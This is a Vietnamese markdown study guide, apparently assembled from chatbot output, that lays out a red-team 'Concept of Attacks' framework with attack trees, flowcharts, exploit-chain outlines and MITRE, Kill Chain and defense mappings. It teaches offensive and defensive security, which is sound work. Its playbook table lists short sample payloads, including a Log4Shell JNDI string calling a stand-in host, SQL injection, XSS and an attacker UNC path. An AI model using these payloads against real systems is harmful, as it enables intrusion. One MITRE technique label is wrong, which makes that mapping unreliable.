

# **Concept of Attacks – Elevation Level 4 (Advanced Red-Team Mindmap Edition)**

---

# 📘 **Mục Lục (Table of Contents)**

1. [Giới thiệu](#giới-thiệu)
2. [Mindmap Elevation Level 4 – Bản mở rộng cao cấp](#mindmap-elevation-level-4)
3. [SOURCE – Phân tầng sâu + Attack Playbook](#source)
4. [PROCESS – Phân tầng sâu + Attack Playbook](#process)
5. [PRIVILEGES – Phân tầng sâu + Attack Playbook](#privileges)
6. [DESTINATION – Phân tầng sâu + Attack Playbook](#destination)
7. [ATTACK CYCLE – Vòng lặp tấn công nâng cao](#attack-cycle)
8. [Attack Trees theo từng dịch vụ](#attack-trees)
9. [Mapping sang MITRE ATT&CK](#mitre)
10. [Defense Mapping – Phòng thủ theo từng tầng](#defense-mapping)
11. [Kết luận & Key Takeaways](#ket-luận)

---

# <a name="giới-thiệu"></a> **1. Giới thiệu**

Elevation Level 4 mở rộng toàn bộ Concept of Attacks thành **tài liệu chiến thuật đầy đủ**, kết hợp:

* Mindmap phân tầng 4–8
* Attack Playbook cho SSH, FTP, SMB, HTTP, SQL, DNS
* Attack Tree
* Mapping MITRE ATT&CK
* Defensive Mapping
* Chiến thuật Red-Team & Blue-Team

Mục tiêu: **Hiểu – Phân tích – Khai thác – Phòng thủ** ở mức chuyên nghiệp.

---

# <a name="mindmap-elevation-level-4"></a> **2. Mindmap Elevation Level 4 (Dạng mở rộng)**



---

# <a name="source"></a> **3. SOURCE – Phân tầng sâu + Attack Playbook**

## **3.1 Tầng 1 – Nhánh chính**

* Code
* Libraries
* Config
* APIs
* User Input

## **3.2 Tầng 2 – Giải thích chi tiết**

### **Code (Functions, Output, Logic Flaws)**

* Input không được validate
* Parser lỗi
* Format string injection

### **Libraries**

* Log4j = RCE
* OpenSSL Heartbleed = memory disclosure
* Unsafe deserialization in Java & PHP

### **Config**

* Cho phép ldap:// rmi://
* Cho dynamic class loading
* Debug endpoints exposed

### **APIs**

* REST injection
* JWT tampering
* File upload metadata injection

### **User Input**

* Headers → SSRF, Log4Shell
* URL → SQLi, LFI, RCE
* JSON → Deserialization

---

## **3.3 Tầng 3 – Bản chất**

> Source = **điểm attacker có thể điều khiển dữ liệu**.
> Mọi khai thác đều bắt đầu bằng việc kiểm soát SOURCE.

---

## **3.4 Tầng 4 – Ví dụ theo dịch vụ**

### **SSH**

* Banner manipulation
* Username brute → timing leak

### **FTP**

* Filename → path traversal
* PORT command injection

### **SMB**

* UNC path manipulation
* SMB relay

### **HTTP**

* XSS payload
* JNDI injection

### **SQL**

* `' OR 1=1--`
* Blind boolean timing

### **DNS**

* Oversized record → buffer overflow

---

## **3.5 Tầng 5 – Attack Playbook (SOURCE)**

| Attack Type | Source Vector | Example Payload             |
| ----------- | ------------- | --------------------------- |
| Log4Shell   | Header        | `${jndi:ldap://evil/a}`     |
| SQLi        | Param         | `' OR sleep(5)--`           |
| XSS         | Param/Input   | `<script>alert(1)</script>` |
| SMB Relay   | UNC path      | `\\attacker\share`          |
| RCE         | Upload        | PHP/Java serialized object  |

---

# <a name="process"></a> **4. PROCESS – Phân tầng sâu + Attack Playbook**

## **4.1 Tầng 1**

* PID
* Input Parsing
* Data Processing
* Variables
* Logging

## **4.2 Tầng 2 – Chi tiết**

### **Input Parsing**

* Type mismatch
* No boundary check
* Unsafe parser

### **Data Processing**

* SQL query builder → SQLi
* File path builder → LFI/RFI
* Command builder → Command injection

### **Variables**

* Overwritten global state
* Race condition in multithread

### **Logging**

* Dynamic evaluation → Log4j

---

## **4.3 Tầng 3 – Bản chất**

> PROCESS = Nơi **vulnerability thật sự nằm**.
> Lỗi logic = lỗi chết người.

---

## **4.4 Ví dụ theo dịch vụ**

### SSH

* Privilege escalation in PAM
* Race condition in auth modules

### SMB

* EternalBlue exploit chain

### SQL

* WAF bypass logic
* UNION-based injection

### HTTP

* XSS executed
* SSTI: `{{7*7}}`

---

## **4.5 Tầng 4 – Attack Playbook**

| Vulnerability   | Process error          | Result      |
| --------------- | ---------------------- | ----------- |
| Log4Shell       | Lookup misinterpret    | RCE         |
| SQLi            | Unsafe string concat   | DB takeover |
| SSTI            | Template injection     | RCE         |
| Buffer Overflow | Missing boundary check | Shell       |

---

# <a name="privileges"></a> **5. PRIVILEGES – Phân tầng sâu + Attack Playbook**

## **5.1 Tầng 1**

* System / root
* User
* Groups
* Policies
* Rules

## **5.2 Tầng 2 – Chi tiết**

### System/root

* Full system takeover
* Kernel attack surface available

### Groups

* docker group → root equivalent
* sudo group → privilege escalation

---

## **5.3 Bản chất**

> Exploit mạnh hay yếu tùy thuộc **quyền process đang chạy**.

---

## **5.4 Ví dụ theo dịch vụ**

* Log4j chạy với quyền admin → RCE
* SMB chạy root → path traversal đọc toàn file hệ thống

---

# <a name="destination"></a> **6. DESTINATION – Phân tầng sâu + Attack Playbook**

## **6.1 Tầng 1**

* Local
* Network

## **6.2 Chi tiết**

Local:

* File write
* Config overwrite
* Injection back into system

Network:

* Reverse shell
* LDAP request
* DNS tunnel

---

## **6.3 Bản chất**

> DESTINATION = nơi attacker nhận dữ liệu hoặc gửi mã độc.

---

# <a name="attack-cycle"></a> **7. ATTACK CYCLE – Vòng lặp nâng cao**

```
1. Inject malicious source
2. Process misinterprets
3. Privileges boost execution
4. Callback to destination
5. Destination returns malicious content
6. System loads malicious content
7. Privilege context applies again
8. Attacker gains persistence / shell / data
```

Bản chất: **Self-amplifying exploit loop**.

---

# <a name="attack-trees"></a> **8. ATTACK TREES – Theo từng dịch vụ**

## **8.1 SSH Attack Tree**

```
SSH Exploitation
├── Credential Attacks
│     ├── Brute force
│     └── Timing leak
├── Configuration Flaws
│     ├── PermitRootLogin yes
│     └── Weak ciphers
└── Post-auth Exploits
      ├── PAM bypass
      └── Privilege escalation
```

## **8.2 SMB Attack Tree**

```
SMB Exploitation
├── Anonymous Access
├── Misconfigurations
│     ├── Writeable share
│     └── Null session
└── Memory Vulnerabilities
      └── EternalBlue
```

## **8.3 HTTP Attack Tree**

```
HTTP Exploitation
├── Injection
│     ├── SQLi
│     ├── XSS
│     └── SSTI
├── Authentication Bypass
│     └── JWT tampering
└── File Handling
      ├── LFI
      └── RCE upload
```

---

# <a name="mitre"></a> **9. MAPPING MITRE ATT&CK**

| Concept                | MITRE Technique              | ID    |
| ---------------------- | ---------------------------- | ----- |
| Source Injection       | Input Manipulation           | T1059 |
| Process Execution      | Exploit for Client Execution | T1203 |
| Privilege Abuse        | Privilege Escalation         | T1068 |
| Destination → Callback | Command & Control            | T1071 |
| Data Exfiltration      | Exfiltration Over C2         | T1041 |

---

# <a name="defense-mapping"></a> **10. DEFENSE MAPPING**

| Layer        | Defense Recommendations                                  |
| ------------ | -------------------------------------------------------- |
| Source       | Input validation, content filtering                      |
| Process      | Memory safety, strict typing, disable dynamic evaluation |
| Privileges   | Least privilege, sandboxing                              |
| Destination  | Outbound firewall, network segmentation                  |
| Attack Cycle | EDR, anomaly detection, log correlation                  |

---

# <a name="kết-luận"></a> **11. Kết luận**

Elevation Level 4 đưa toàn bộ Concept of Attacks lên cấp độ chuyên sâu:

* Hiểu cấu trúc tấn công
* Biết cách attacker thao túng pipeline
* Mapping được vào từng dịch vụ
* Biết detection & defense theo từng tầng

**Đây là framework có thể áp dụng cho mọi CVE, mọi dịch vụ.**

---

# 🎯 Bạn muốn Level 5 không?

Level 5 sẽ có:

* Flowchart tấn công từng dịch vụ
* Chuỗi exploit chain đầy đủ
* Mitigation playbook dạng bảng
* Case study theo từng CVE

Chỉ cần nói: **“Làm Elevation Level 5”**.

# **Elevation Level 5 – Advanced Attack Framework (Option A)**

## **1. Giới thiệu – Elevation Level 5 là gì?**

Elevation Level 5 mở rộng Concept of Attacks thành **một khung chiến thuật hoàn chỉnh (Advanced Attack Framework)** dùng trong:

* Red Team Operation
* Offensive Security Planning
* Threat Emulation (APT-style)
* Exploit Development Strategy
* Kill Chain Mapping
* Decision-making trong thực chiến

Level 5 = *chiến lược + mô hình + chuỗi khai thác + flowchart + mapping APT*.
Nó không chỉ là phân tích lỗ hổng, mà còn mô tả **cách attacker thực sự vận hành toàn bộ chiến dịch**.

---

# **2. Attack Lifecycle Framework (Sơ đồ tổng quan)**

```
[Initial Source Control]
        ↓
[Process Manipulation]
        ↓
[Privilege Alignment / Abuse]
        ↓
[Destination Redirection]
        ↓
[Exploit Loop Reload]
        ↓
[Post-Exploitation Framework Stage]
        ↓
[Persistence + Lateral Movement]
        ↓
[Objective Completion]
```

Tất cả cuộc tấn công thực tế (APT, malware, tập đoàn tấn công chuyên nghiệp) đều đi qua **dạng pipeline này**.

---

# **3. Attack Flowcharts (Flow thực chiến theo từng giai đoạn)**

## **3.1 Flowchart 1 – Source Compromise Flow**

```
Attacker tìm nguồn →
  ├── Input để chèn payload?
  ├── API nhận dữ liệu?
  ├── Library xử lý string?
  ├── Config mở tính năng động?
Nếu CÓ → Inject Payload → Sang Process Stage
Nếu KHÔNG → Chuyển sang Recon nâng cao
```

## **3.2 Flowchart 2 – Process Manipulation Flow**

```
Process nhận dữ liệu →
  ├── Parser có hiểu sai?
  ├── Code có concatenate string?
  ├── Logging có dynamic eval?
  ├── Có deserialization?
Nếu CÓ → Trigger Vulnerability → Sang Privilege Stage
Nếu KHÔNG → Tìm vector khác trong Source
```

## **3.3 Flowchart 3 – Privilege Alignment Flow**

```
Process chạy dưới quyền gì?
  ├── root / SYSTEM → Maximum Impact
  ├── service user → Medium Impact
  ├── sandbox user → Limited
→ Attacker đánh giá:
  ├── Tiếp tục exploit hiện tại
  └── Hay pivot sang PrivEsc?
```

## **3.4 Flowchart 4 – Destination Redirection Flow**

```
Attacker tạo destination:
  ├── LDAP server?
  ├── HTTP server?
  ├── SMB server?
  ├── DNS exfil?
Process gọi outbound?
  ├── Nếu CÓ → Attacker trả payload thứ cấp
  └── Nếu KHÔNG → Tìm internal redirection vector
```

## **3.5 Flowchart 5 – Exploit Loop Reload**

```
Payload thứ cấp được load →
  ├── Load class/script?
  ├── Execute shellcode?
  ├── Deserialize object?
Nếu thành công → Post-Exploitation Stage
Nếu lỗi → Attacker điều chỉnh Source hoặc Destination → Lặp lại
```

## **3.6 Flowchart 6 – Post-Exploitation Chain**

```
Attacker có code execution →
  ├── Thu thập thông tin
  │      ├── OS info
  │      ├── Network
  │      └── Credentials
  ├── Persistence
  ├── Lateral movement
  └── Data exfiltration hoặc impact (ransomware)
```

---

# **4. Exploit Chains – Chuỗi khai thác hoàn chỉnh**

## **4.1 Chuỗi khai thác chuẩn (Universal Exploit Chain)**

```
1. External Payload Injection (Source)
2. Internal Misprocessing (Process)
3. Administrative Privilege Execution (Privileges)
4. External Callback to Attacker (Destination)
5. Malicious Response Injection (Secondary Source)
6. Execution of Loaded Payload (Secondary Process)
7. Privileged Shell / Execution (Privilege Re-Apply)
8. Reverse Shell or Exfiltration (Final Destination)
```

## **4.2 Chuỗi khai thác dạng APT (Advanced Persistent Threat)**

```
Initial Access → Execution → Persistence → PrivEsc → Defense Evasion → Credential Access → Lateral Movement → Collection → Exfiltration → Impact
```

Concept of Attacks liên kết trực tiếp vào 4 core categories trong mọi giai đoạn.

---

# **5. Red-Team Tactical Playbook – Option A Core**

## **5.1 Phase 1 – Initial Source Control**

Kỹ thuật:

* Header Injection
* API fuzzing
* Payload mutation
* Bypass WAF
* SSRF để ép internal service xử lý dữ liệu

## **5.2 Phase 2 – Process Manipulation**

Kỹ thuật:

* Deserialization exploits
* Eval injection
* JNDI injection
* Buffer overflow
* Query injection (SQL, NoSQL, GraphQL)

## **5.3 Phase 3 – Privilege Alignment**

Kỹ thuật:

* Token impersonation
* ACL abuse
* sudo misconfig
* Capability abuse

## **5.4 Phase 4 – Destination Redirection**

Kỹ thuật:

* DNS tunneling
* LDAP payload hosting
* SMB relay
* HTTP stager hosting

## **5.5 Phase 5 – Post-Exploitation Expansion**

Kỹ thuật:

* Credential harvesting
* Pivoting via tunnels (chisel, sshuttle)
* Lateral movement (SMB, WMI, WinRM)
* Persistence (systemd, registry, scheduled task)

---

# **6. Mapping sang MITRE + Kill Chain (Advanced)**

## **6.1 MITRE Mapping (chi tiết)**

| Concept Stage        | MITRE Category       | Technique ID |
| -------------------- | -------------------- | ------------ |
| Source               | Initial Access       | T1190, T1133 |
| Process              | Execution            | T1059, T1203 |
| Privileges           | Privilege Escalation | T1068        |
| Destination          | Command & Control    | T1071        |
| Secondary Source     | Persistence          | T1505        |
| Objective Completion | Impact               | T1486        |

## **6.2 Cyber Kill Chain Mapping**

| Kill Chain Phase     | Concept of Attacks Link   |
| -------------------- | ------------------------- |
| Recon                | Find Source vectors       |
| Weaponization        | Craft payload for Process |
| Delivery             | Inject Source             |
| Exploitation         | Misprocessing in Process  |
| Installation         | Secondary payload loads   |
| C2                   | Destination callback      |
| Actions on Objective | Privileged execution      |

---

# **7. Threat Modeling (STRIDE Integration)**

| STRIDE                     | Connection with Concept |
| -------------------------- | ----------------------- |
| S – Spoofing               | Source manipulation     |
| T – Tampering              | Process tampering       |
| R – Repudiation            | Logging bypass          |
| I – Information Disclosure | Destination leak        |
| D – Denial of Service      | Process overload        |
| E – Elevation of Privilege | Privilege stage         |

---

# **8. Universal Decision Tree – Đánh giá mọi lỗ hổng**

```
Có điểm nhập dữ liệu? (Source)
  → Có parser/processor? (Process)
      → Parser có thể hiểu sai?
          → Process chạy quyền gì? (Privileges)
              → Có outbound? (Destination)
                  → Có thể kiểm soát phản hồi?
                      → LOOP → RCE / Shell
Nếu bất kỳ bước nào bị chặn → chuyển vector khác
```

---

# **9. Summary – Key Takeaways của Option A**

* Elevation Level 5 biến Concept of Attacks thành **một framework tấn công chiến lược**.
* Kết hợp toàn bộ vòng đời tấn công và chiến thuật APT.
* Có flowchart, exploit chain, mapping MITRE/Kill Chain.
* Dùng được cho cả OffSec lẫn Red-Team Ops.

---

Muốn mình tạo **Elevation Level 6 (Hyper-Operational)**?
Bao gồm:

* Playbook cho từng dịch vụ (SSH/SMB/RDP/SQL/HTTP)
* 10 Exploit Chains hoàn chỉnh
* Tạo sơ đồ tấn công dạng ATT&CK Navigator
* Thêm persistence & lateral movement chain

Chỉ cần nói: **"Làm Elevation Level 6"**!
